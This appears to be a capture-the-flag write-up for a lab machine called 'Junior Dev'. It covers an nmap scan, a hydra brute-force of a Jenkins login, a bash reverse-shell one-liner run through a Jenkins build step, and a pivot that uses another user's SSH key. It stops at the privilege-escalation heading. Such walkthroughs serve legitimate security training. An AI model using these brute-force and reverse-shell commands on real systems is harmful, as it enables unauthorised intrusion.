 # JuniorDev!
## @Author : M3tr1c_r00t
![image](https://user-images.githubusercontent.com/99975622/210865706-53f990ea-657f-4e80-a31e-3280c0d314f0.png)
**_Junior Dev_** is a medium linux machine which involves bruteforcing into Jenkins to gain access, then involves port forwarding to gain acess to a python web server being run as root and exploit it to gain root priviledges!

### Enumeration...
_**Nmap...**_
```
# Nmap 7.92 scan initiated Sat Dec 24 19:47:32 2022 as: nmap -sC -sV -A -p 22,30609 -oN nmapports.txt 10.150.150.38
Nmap scan report for 10.150.150.38
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
30609/tcp open  http    Jetty 9.4.27.v20200227
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.27.v20200227)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   227.63 ms 10.66.66.1
2   227.66 ms 10.150.150.38

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 24 19:47:58 2022 -- 1 IP address (1 host up) scanned in 26.91 seconds
```
With only two ports open, we can go and take a look at the web server at _**port 30609**_ ...
![Screenshot from 2022-12-25 07-54-20](https://user-images.githubusercontent.com/99975622/210867918-460e5821-585f-485d-a4ce-fd9b94f36800.png)

The next thing we can do, try to brute force the login page as the box's name is junior dev, so probably there's some kind of misconfiguration.
<br> Also, jenkins doesnt have a default password but has a default username, so we are gonna brute force the login using hydra ...

![Screenshot from 2022-12-25 08-24-21](https://user-images.githubusercontent.com/99975622/210868426-7a4113b1-db9f-4299-bcb1-631608935874.png)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```
Now that we have the creds, let login into the site...
![Screenshot from 2022-12-25 08-25-11](https://user-images.githubusercontent.com/99975622/210868917-d86374ea-b80e-4b0f-badd-c56528718f4c.png)

Next step after login, we can try and look for a way to get a reverse shell onto the server...
You will notice that there is a section for actions and in those actions, there is a section for executing shell commands...
![Screenshot from 2022-12-25 08-25-34](https://user-images.githubusercontent.com/99975622/210869289-3269328f-1ca2-4239-90e5-26eb2034c1c6.png)

So next, change the shell code so that you can get a reverse shell on the server...
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
After saving the code, click on the build now to execute the command...
![Screenshot from 2022-12-25 08-26-55](https://user-images.githubusercontent.com/99975622/210870240-d45f0582-66ac-479f-b837-3cd998393d8a.png)

And we've gotten our reverse shell...
![Screenshot from 2022-12-25 08-27-58](https://user-images.githubusercontent.com/99975622/210870883-f68fee22-f0ac-42fe-b0a4-1843157a73d7.png)

Next, stabilize the shell, then we can try to find some of the flags...
#### FLAG70
![Screenshot from 2022-12-25 08-28-08](https://user-images.githubusercontent.com/99975622/210871326-f7c5dfdc-d04c-44e5-ba00-77e5f64a2ae7.png)
#### FLAG69
![Screenshot from 2022-12-25 08-30-30](https://user-images.githubusercontent.com/99975622/210871614-83d6c725-6f9b-43ff-a40f-25d979e9d05c.png)
### Local Escalation...
If you check the /etc/passwd file, you'll see that we've gotten a reverse shell as the jenkins web-server...
<br> We're gonna try to get access to the juniordev user...
<br> We can start by checking files in our current directory...
![Screenshot from 2022-12-25 08-30-45](https://user-images.githubusercontent.com/99975622/210872208-277c4b9d-0997-408c-82ea-7fc5ae6a2290.png)
Note that the .bash_history file is owned by jenkins, meaning we have acess...
<br> If we check out the contents of the file, we can see that jenkins can read the contents of the id_rsa file of juniordev and we get his key...
![Screenshot from 2022-12-25 08-31-15](https://user-images.githubusercontent.com/99975622/210872650-b4313c35-599b-40fe-bc80-1aafa94c63df.png)
Save the key to a file, grant the required permissions then ssh as juniordev...
![Screenshot from 2022-12-25 08-35-00](https://user-images.githubusercontent.com/99975622/210872832-c9487cf7-13cc-4843-9bf1-cd07c16ed30d.png)


### Priv Esc...






